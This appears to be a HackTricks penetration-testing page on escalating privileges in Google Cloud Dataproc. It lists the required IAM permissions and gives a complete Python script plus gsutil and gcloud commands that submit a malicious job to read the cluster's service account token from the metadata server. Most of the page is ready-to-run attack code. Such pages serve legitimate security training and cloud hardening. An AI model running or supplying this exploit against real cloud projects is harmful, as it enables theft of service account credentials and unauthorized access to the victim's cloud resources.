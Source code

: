 # GCP Dataproc Privilege Escalation

{{#include ../../../banners/hacktricks-training.md}}

## Dataproc

{{#ref}}
../gcp-services/gcp-dataproc-enum.md
{{#endref}}

### `dataproc.clusters.get`, `dataproc.clusters.use`, `dataproc.jobs.create`, `dataproc.jobs.get`, `dataproc.jobs.list`, `storage.objects.create`, `storage.objects.get` 

I was unable to get a reverse shell using this method, however it is possible to leak SA token from the metadata endpoint using the method described below. 

#### Steps to exploit

- Place the job script on the GCP Bucket

- Submit a job to a Dataproc cluster.

- Use the job to access the metadata server.

- Leak the service account token used by the cluster.

```python
import requests

metadata_url = "http://metadata/computeMetadata/v1/instance/service-accounts/default/token"
headers = {"Metadata-Flavor": "Google"}

def fetch_metadata_token():
    try:
        response = requests.get(metadata_url, headers=headers, timeout=5)
        response.raise_for_status()
        token = response.json().get("access_token", "")
        print(f"Leaked Token: {token}")
        return token
    except Exception as e:
        print(f"Error fetching metadata token: {e}")
        return None

if __name__ == "__main__":
    fetch_metadata_token()
```

```bash
# Copy the script to the storage bucket
gsutil cp <python-script> gs://<bucket-name>/<python-script>

# Submit the malicious job
gcloud dataproc jobs submit pyspark gs://<bucket-name>/<python-script> \
    --cluster=<cluster-name> \
    --region=<region>
```

{{#include ../../../banners/hacktricks-training.md}}
